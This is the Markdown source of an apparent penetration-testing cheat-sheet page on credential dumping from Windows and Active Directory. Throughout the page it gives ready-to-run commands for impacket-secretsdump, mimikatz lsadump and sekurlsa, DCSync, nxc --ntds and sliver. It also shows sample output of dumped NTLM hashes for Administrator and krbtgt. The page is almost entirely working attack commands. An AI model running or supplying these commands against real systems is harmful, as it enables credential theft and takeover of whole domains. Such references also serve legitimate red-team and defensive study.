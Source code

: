 ```yaml
---
title: "secretsdump"
date: 2025-7-18
tags: ["SAM", "SYSTEM", "SECURITY", "Dcsync", "Impacket", "secretsdump", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}mimikatz{{< /tab >}}
{{< tab set2 tab3 >}}sliver{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
.\mimikatz.exe "lsadump::secrets /system:SYSTEM /security:SECURITY"
```

```console
.\mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
mimikatz -- '"lsadump::secrets /system:C:\SYSTEM /security:C:\SECURITY"'
```

```console
mimikatz -- '"lsadump::sam /system:C:\SYSTEM /sam:C:\SAM"'
```

{{< /tabcontent >}}


### With DCsync Right

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tab set3 tab3 >}}mimikatz{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
# Password
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console
# NTLM
impacket-secretsdump '<DOMAIN>/<USER>@<DC>' -hashes ':<HASH>'
```

```console
# Kerberos
impacket-secretsdump -k -no-pass -dc-ip <DC_IP> <DC>
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
.\mimikatz.exe "lsadump::dcsync /all" "exit"
```

```console
# Dump old creds
.\mimikatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER> /history" "exit"
```

{{< /tabcontent >}}

### With NT AUTHORITY\SYSTEM / Administrator

{{< tab set4 tab1 >}}mimikatz{{< /tab >}}
{{< tab set4 tab2 >}}sliver{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
.\mimikatz.exe "sekurlsa::logonpasswords"
```

```console
.\mimikatz.exe "lsadump::lsa /patch"
```

{{< /tabcontent >}}
{{< tabcontent set4 tab2 >}}

```console
mimikatz -- '"sekurlsa::logonpasswords"'
```

```console
mimikatz -- '"lsadump::lsa /patch"'
```

{{< /tabcontent >}}